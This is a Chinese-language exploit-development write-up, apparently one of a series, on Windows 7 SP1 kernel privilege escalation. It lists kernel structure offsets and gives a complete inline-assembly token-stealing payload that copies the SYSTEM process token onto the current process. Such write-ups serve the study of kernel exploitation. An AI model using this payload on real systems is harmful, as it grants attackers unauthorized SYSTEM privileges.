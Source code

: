 payload 功能：遍历进程，得到系统进程的 token，把当前进程的 token 替换，达到提权目的。（跟前两篇一样的原理，**替换 token**）

 

相关内核结构体：

 

在内核模式下，fs:[0] 指向 KPCR 结构体

```
_KPCR
+0x120 PrcbData         : _KPRCB
_KPRCB
+0x004 CurrentThread    : Ptr32 _KTHREAD，_KTHREAD指针，这个指针指向_KTHREAD结构体
_KTHREAD
+0x040 ApcState         : _KAPC_STATE
_KAPC_STATE
+0x010 Process          : Ptr32 _KPROCESS,_KPROCESS指针，这个指针指向EPROCESS结构体
_EPROCESS
   +0x0b4 UniqueProcessId  : Ptr32 Void,当前进程ID，系统进程ID=0x04
   +0x0b8 ActiveProcessLinks : _LIST_ENTRY，双向链表，指向下一个进程的ActiveProcessLinks结构体处，通过这个链表我们可以遍历所有进程，以寻找我们需要的进程
   +0x0f8 Token            : _EX_FAST_REF，描述了该进程的安全上下文，同时包含了进程账户相关的身份以及权限

```

payload：

```
__asm {
       pushad                               ; 保存寄存器
 
 
       xor eax, eax                         ;eax置0
       mov eax, fs:[eax + KTHREAD_OFFSET]   ; 获得当前线程的_KTHREAD结构，KTHREAD_OFFSET=0x124
                                            ; FS:[0x124] 是 _KTHREAD结构
 
       mov eax, [eax + EPROCESS_OFFSET]     ;  找到_EPROCESS结构， nt!_KTHREAD.ApcState.Process，EPROCESS_OFFSET 0x50
 
 
       mov ecx, eax                         ; ecx ，当前进程Eprocess结构体
 
       mov edx, SYSTEM_PID                  ; WIN 7 SP1 SYSTEM process PID = 0x4
 
       SearchSystemPID:
           mov eax, [eax + FLINK_OFFSET]    ; Get nt!_EPROCESS.ActiveProcessLinks.Flink，FLINK_OFFSET=0xb8
           sub eax, FLINK_OFFSET
           cmp [eax + PID_OFFSET], edx      ; Get nt!_EPROCESS.UniqueProcessId，PID_OFFSET=0xb4
           jne SearchSystemPID              ;遍历链表根据PID判断是否为SYSTEM_PID(0x4)
       //替换token
       mov edx, [eax + TOKEN_OFFSET]        ; 获得系统进程token  。TOKEN_OFFSET=0xf8
       mov [ecx + TOKEN_OFFSET], edx        ; 系统进程token替换当前进程token
 
       ; End of Token Stealing Stub
 
       popad                                ; Restore registers state
 
       ; Kernel Recovery Stub
       xor eax, eax                         ; Set NTSTATUS SUCCEESS
       add esp, 12                          ; Fix the stack
       pop ebp                              ; Restore saved EBP
       ret 8                                ; Return cleanly
   }

```
